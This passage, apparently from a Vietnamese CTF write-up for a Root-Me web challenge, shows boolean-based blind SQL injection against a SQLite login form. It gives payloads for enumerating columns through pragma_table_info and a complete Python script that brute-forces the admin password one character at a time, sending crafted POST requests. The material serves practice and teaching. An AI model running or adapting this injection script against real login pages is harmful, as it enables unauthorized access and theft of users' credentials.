 Tiếp tục tìm colum_name , code tương tự ở trên chỉ cần thay 2 payload sau : 

`payload = f"admin' AND (SELECT LENGTH(name) FROM pragma_table_info('users') limit 1 offset {offset})={i}-- -"`

`payload = f"admin' AND (SELECT SUBSTR((SELECT name FROM pragma_table_info('users') limit 1 offset {k}),{i},1))='{chr(j)}'-- -"`

Kết quả : 

![image](https://hackmd.io/_uploads/B1b3CtaHT.png)

Tìm được 2 column quan trọng là `username` và `password`

Ok bây giờ tìm password thôi code như sau : 

```python=
import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
URL = "http://challenge01.root-me.org/web-serveur/ch10/"

def lenght_passwd():
    for i in range(0, 30):
        payload = f"admin' AND (SELECT LENGTH(password) FROM users WHERE username='admin' limit 1)={i}-- -"
        DATA = {"username":payload, "password": "123"}
        http = requests.post(url=URL, data=DATA, verify=False, proxies=proxies)
        if "Welcome back admin !" in http.text:
            return i

def column_name():
    length = lenght_passwd()
    print(f"Password có {length} kí tự , đang dò password, loading... ")
    password = ''
    for i in range(1, length + 1):
        for j in range(32, 126):
            payload = f"admin' AND (SELECT SUBSTR((SELECT password FROM users WHERE username='admin' limit 1),{i},1))='{chr(j)}'-- -"
            DATA = {"username": payload, "password": "123"}
            http = requests.post(url=URL, data=DATA, verify=False, proxies=proxies)
            if "Welcome back admin !" in http.text:
                password += chr(j)
                sys.stdout.write('\r' + 'Kết quả là : ' + password)
                sys.stdout.flush()
                break
            else:
                sys.stdout.write('\r' + 'Kết quả là : ' + password + chr(j))
                sys.stdout.flush()

if __name__ == "__main__":
    column_name()
```
